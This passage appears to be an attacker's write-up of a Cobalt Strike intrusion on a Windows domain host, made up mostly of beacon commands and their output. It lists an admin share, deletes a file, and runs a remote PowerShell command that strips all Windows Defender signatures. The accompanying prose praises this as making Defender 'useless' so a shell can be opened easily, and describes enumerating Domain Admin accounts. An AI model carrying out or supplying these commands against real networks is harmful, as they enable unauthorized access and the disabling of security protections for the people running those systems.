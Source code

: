 ```
Out Parameters:  
instance of __PARAMETERS  
{  
       ProcessId = 7828;  
       ReturnValue = 0;  
};  



beacon> ls \\AQUILA\C$
[*] Tasked beacon to list files in \\AQUILA\C$
[+] host called home, sent: 29 bytes
03/23 23:00:13 UTC [output]
\\AQUILA\C$\*
D       0       11/26/2021 21:43:28     $Recycle.Bin
F       384322  07/16/2016 23:18:08     bootmgr
F       1       07/16/2016 23:18:08     BOOTNXT
D       0       11/13/2020 21:30:11     Distrib
D       0       10/06/2020 22:11:30     Documents and Settings
D       0       06/17/2021 08:08:42     ExchangeCert
D       0       10/28/2020 22:54:15     inetpub
D       0       10/09/2020 08:29:13     LdapAdmin
D       0       10/28/2020 23:06:10     Logs
D       0       10/26/2020 16:12:10     MSOCache
F       4414324736      03/17/2022 21:08:41     pagefile.sys
D       0       10/07/2020 03:26:41     PerfLogs
D       0       09/01/2021 22:03:05     Program Files
D       0       10/28/2020 23:08:00     Program Files (x86)
D       0       03/24/2022 06:25:40     ProgramData
D       0       10/06/2020 22:11:32     Recovery
D       0       10/07/2020 03:48:23     System Volume Information
D       0       11/26/2021 21:43:18     Users
D       0       03/24/2022 08:52:54     Windows
D       0       10/08/2020 23:58:52     zabbix_agent
F       55386   11/21/2021 23:14:42     zabbix_agentd.log

beacon> rm system.exe
[*] Tasked beacon to remove system.exe
[+] host called home, sent: 18 bytes
```

So I've learned this technique that is related to **Defense Evasion** and best of all this will make Windows Defender useless to get
rid of all of the signatures and pop a shell easily. I had to check the usernames since `sergeev.ma` didn't work. Which is
why I've relied on `net users \\<IP>` to check other **Domain Admins** of which I could authenticate on active directory.

```
beacon> powershell icm -computername aquila -scriptblock {cmd /c "c:\program files\windows defender\mpcmdrun.exe" -removedefinitions -all }
[*] Tasked beacon to run: icm -computername aquila -scriptblock {cmd /c "c:\program files\windows defender\mpcmdrun.exe" -removedefinitions -all }
[+] host called home, sent: 593 bytes
[+] received output:
#< CLIXML

Service Version: 4.18.2107.4
Engine Version: 1.1.18400.5
AntiSpyware Signature Version: 1.347.80.0
AntiVirus Signature Version: 1.347.80.0
NRI Engine Version: 1.1.18400.5
NRI Signature Version: 1.347.80.0

```